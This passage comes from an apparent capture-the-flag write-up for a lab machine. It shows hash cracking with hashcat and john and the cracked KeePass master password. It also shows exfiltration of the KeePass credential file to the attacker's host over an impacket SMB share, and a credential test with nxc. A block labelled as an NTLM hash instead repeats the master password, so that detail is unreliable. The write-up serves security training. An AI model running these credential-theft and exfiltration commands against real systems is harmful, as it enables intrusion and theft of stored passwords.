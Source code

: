 Let’s attempt to use hashcat to decrypt:

```bash
.\hashcat.exe -m 3200 wordlists\hash.txt wordlists\rockyou.txt
```

We let this run in the background. Let’s also search for files in the user’s home dir. In Documents folder, we find:

```bash
CEH.kdbx
```

A keepass file. Let’s transfer it back to our host. Let’s start a smb server and copy the file over:

```bash
sudo impacket-smbserver share -smb2support . -user test -password test
```

Now on target:

```bash
net use \\10.10.16.7\share /user:test test

copy CEH.kdbx \\10.10.16.7\share\CEH.kdbx
```

Once transferred, we have to convert the file to john so we can crack the master password:

```bash
keepass2john CEH.kdbx > ceh.john

john --wordlist=/usr/share/wordlists/rockyou.txt ceh.john

moonshine1       (CEH)
```

Let’s open it now; we find passwords for all sort of users, DC Recovery PW looks the most interesting:

![image.png]({{ site.baseurl }}/assets/jeeves/image%208.png)

Let’s see if it works:

```bash
nxc smb 10.10.10.63 -u Administrator -p S1TjAtJHKsugh9oC4VZl --shares

#did not work, let's try another
```

None of the password worked. We also find a NTLM hash:

```bash
moonshine1
```

![image.png]({{ site.baseurl }}/assets/jeeves/image%209.png)

Let’s try to use that:
